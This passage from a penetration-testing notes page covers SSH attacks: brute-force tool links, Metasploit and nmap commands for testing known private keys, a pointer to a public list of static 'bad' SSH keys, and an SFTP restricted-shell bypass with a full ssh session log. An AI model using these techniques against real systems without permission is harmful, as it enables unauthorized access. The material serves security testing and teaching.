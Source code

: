 - [hydra](../Tools/hydra.md#SSH%20Brute-Force)
- [medusa](../Tools/medusa.md)

## Private/Public Keys BF

If you know some ssh private key that could be used... lets try it. You can use the nmap script or the msf auxiliary modules:

```bash
https://nmap.org/nsedoc/scripts/ssh-publickey-acceptance.html
msf> use scanner/ssh/ssh_identify_pubkeys
```

## Known SSH-badkeys / OpenSSL Predictable PRNG (CVE-2008-0166)

>[!danger]
>List of badkeys: https://github.com/rapid7/ssh-badkeys/tree/master/authorized

This is a collection of static SSH keys (host and authentication) that have made their way into software and hardware products. This was inspired by the [Little Black Box](https://code.google.com/p/littleblackbox/) project, but focused primarily on SSH (as opposed to TLS) keys.

Keys are split into two categories; authorized keys and host keys. The authorized keys can be used to gain access to a device with this public key. The host keys can be used to conduct a MITM attack against the device, but do not provide direct access.

This collection depends on submissions from researchers to stay relevant. If you are aware of a static key (host or authorized), please open an [Issue](https://github.com/rapid7/ssh-badkeys/issues) or submit a Pull Request. The [Issues](https://github.com/rapid7/ssh-badkeys/issues) list also contains a wishlist of known bad keys that we would like to include.

For additional key types and a broader scope, take a look at the [Kompromat](https://github.com/BenBE/kompromat) project.


## SFTP command execution

Another common SSH misconfiguration is often seen in SFTP configuration. Most of the time when creating a SFTP server the administrator want users to have a SFTP access to share files but not to get a remote shell on the machine. So they think that creating a user, attributing him a placeholder shell (like `/usr/bin/nologin` or `/usr/bin/false`) and chrooting him in a jail is enough to avoid a shell access or abuse on the whole file system. But they are wrong, **a user can ask to execute a command right after authentication before it’s default command or shell is executed**. So to bypass the placeholder shell that will deny shell access, one only has to ask to execute a command (eg. `/bin/bash`) before, just by doing:

```bash
$ ssh -v noraj@192.168.1.94 id
...
Password:
debug1: Authentication succeeded (keyboard-interactive).
Authenticated to 192.168.1.94 ([192.168.1.94]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Sending command: id
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(noraj) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

```